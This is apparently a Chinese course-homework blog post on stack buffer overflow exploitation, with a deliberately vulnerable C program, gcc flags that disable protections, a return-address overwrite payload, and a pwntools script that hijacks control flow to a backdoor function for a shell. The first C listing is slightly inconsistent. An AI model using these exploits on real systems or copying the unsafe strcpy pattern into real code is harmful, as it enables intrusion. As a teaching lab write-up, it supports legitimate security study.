 ```yaml
---
title: 栈溢出利用
date: 2020-09-16 15:59:59
tags: ["随笔"]
index_img: ../assets/gdb-debug.png
---
```


## 概述

![stack-frames](../assets/stack-frame.jpg)

软件漏洞分析课程的一次作业，利用了栈内存的缓冲区溢出，覆盖了返回地址，从而达到劫持控制流的目的。如果希望能具体了解一下图中 c 函数调用的实现，可以看一下 B 站上陈渝教授的这个视频。

<iframe style="margin-left: 50%;transform: translateX(-50%);width: 50vw;height: 40vw;" src="//player.bilibili.com/player.html?aid=77228694&bvid=BV1mJ411X73U&cid=132102373&page=5" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe>

## EXP1

```c
#include <stdio.h>
#include <string.h>

void function2()
{
  printf("Executed chagned\n");
}

void function1()
{
  char buffer[5];
  strcpy(buffer,str);
}

void main(int argc, char *argv[])
{
  function1(argv[1]);
  printf("Executed normally\n");
}
```

使用`gdb`进行调试，`strcpy`函数可以被利用引起缓冲区溢出，目前的问题时需要多长的字符串，以及需要将`function1`栈帧的返回地址覆盖为什么

环境

> ubuntu 16.04
>
> gcc 5.4.0
>
> gdb 7.11.1

![arch](../assets/ubuntu-arch.png)

关闭堆栈保护机制，使用`gcc`编译

```bash
gcc -g main.c -m32 -o main32 -z execstack -fno-stack-protector
```

![gdb](../assets/gdb-debug.png)

可以得出`ebp`与`&buffer`相距 13 个字节，同时返回地址占用 4 个字节，`function2`的地址为`0x0804845B`，构造出 payload`AAAAAAAAAAAAAAAAA\x5B\x84\x04\x08`

![stack-overflow-result](../assets/stack-overlow-result.png)

成功调用了`function2`，同理地址也可以被改成其他的函数地址。

## EXP2

已知一个[二进制文件](https://raw.github.com/ChenKS12138/ChenKS12138.github.io/source-code/assets/stack-tutorial)，通过 ida 静态调试。

![ida](../assets/stack-overflow-ida.png)

vulnerable_function 中的 buffer 只需要 1 个字节，但是第五行的 read 函数可以输入 256 个字节，这里可能存在着栈溢出。根据第三行的注释推测，`&buffer`距离`ebp`位 0x30 个字节，猜测我们需要构造的 payload 为 52 字节的字符串再加上目标函数的地址，即`backdoor`函数的地址。

```python
from pwn import *
p=process("./stack");

ret_addr=0x0804846B

payload = "a"*52+p32(ret_addr)

p.sendline(payload)
p.interactive()
p.close()
```

![EXP2-RESULT](../assets/stack-overflow-pwn-result.png)

成功拿到 shell
